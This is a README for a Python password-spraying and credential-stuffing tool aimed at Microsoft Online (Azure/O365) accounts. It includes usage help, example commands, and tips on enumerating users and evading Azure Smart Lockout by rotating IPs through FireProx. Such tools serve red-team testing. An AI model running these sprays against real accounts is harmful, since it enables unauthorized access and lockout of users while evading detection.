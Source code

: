 # MSOLSpray Python rewrite
**This is a pure Python rewrite of [dafthack's MSOLSpray](https://github.com/dafthack/MSOLSpray/) which is written in PowerShell. All credit goes to him!**

MSOLSpray is a password spraying tool for Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled. 

**BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!**

## Why another spraying tool?
The main difference with this tool is that it is not only looking for valid passwords, but also the extremely verbose information Azure AD error codes give you. These error codes provide information relating to if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, if the account is disabled, if the password is expired and much more.

So this doubles as not only a password spraying tool but also a Microsoft Online recon tool that will provide account/domain enumeration. In limited testing it appears that on valid login to the Microsoft Online OAuth2 endpoint it isn't auto-triggering MFA texts/push notifications making this really useful for finding valid creds without alerting the target.

Lastly, this tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Azure Smart Lockout.

## Quick Start
### Requirements

You will need to install the python library `requests`. You can do this by running:
```
pip3 install requests
```

### MSOLSpray

You will need a userlist file with target email-addresses one per line. 
```
usage: MSOLSpray.py [-h] -u FILE [--credstuff FILE] [--useraspass] -p PASSWORD [-o OUTFILE_PREFIX] [-f] [-v] [-s SECONDS] [--url URL]

This is a pure Python rewrite of dafthack's MSOLSpray (https://github.com/dafthack/MSOLSpray/) which is written in PowerShell. All credit goes to him!

This script will perform password spraying against Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled.

optional arguments:
  -h, --help            show this help message and exit
  -u FILE, --userlist FILE
                        File filled with usernames one-per-line in the format
                        'user@domain.com'. (Required)
  -p PASSWORD, --password PASSWORD
                        A single password that will be used to perform the
                        password spray. (Required)
  --credstuff FILE
                        File filled with username\\tpassword per line (\\t describes Tab separated). Username format 'user@domain.com'.
  --useraspass
                        Pulling from the provided username list, using the username as the password. NOTE: -u (--userlist) required with this flag.
  -o OUTFILE_PREFIX, --out OUTFILE_PREFIX
                        The prefix for the output files' naming convention. Three files will be produced (if applicable). For the example -o EXAMPLE --- EXAMPLE_successes.txt, EXAMPLE_valid_usernames.txt, EXAMPLE_locked_accounts.txt
  -f, --force           Forces the spray to continue and not stop when
                        multiple account lockouts are detected.
  --url URL             The URL to spray against (default is
                        https://login.microsoft.com). Potentially useful if
                        pointing at an API Gateway URL generated with
                        something like FireProx to randomize the IP address
                        you are authenticating from.
  -v, --verbose
                        Prints usernames that could exist in case of invalid password
  -s, --sleep NUMBER_OF_SECONDS
                        Sleep this many seconds between tries

EXAMPLE USAGE:
This command will use the provided userlist and attempt to authenticate to each account with a password of Winter2020.
    python3 MSOLSpray.py --userlist ./userlist.txt --password Winter2020

This command uses the specified FireProx URL to spray from randomized IP addresses and writes the output to a file. See this for FireProx setup: https://github.com/ustayready/fireprox.
    python3 MSOLSpray.py --userlist ./userlist.txt --password P@ssword --url https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox --out PW_Spray1

This command uses the specified FireProx URL, but with the username as the password.
    python3 MSOLSpray.py --userlist ./userlist.txt --useraspass --url https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox --out PW_Spray1    

This command uses the specified FireProx URL, but does Credential Stuffing using an input file with username\\tpassword per line (\\t describes Tab separated).
    python3 MSOLSpray.py --credstuff ./credlist.txt --url https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox --out PW_Spray1 
```
### TODO LIST
TODO LIST:
    - Rotating useragents

    - Set useragent flag
    
    - Provide FireProx URLs txt file to use multiple FireProx links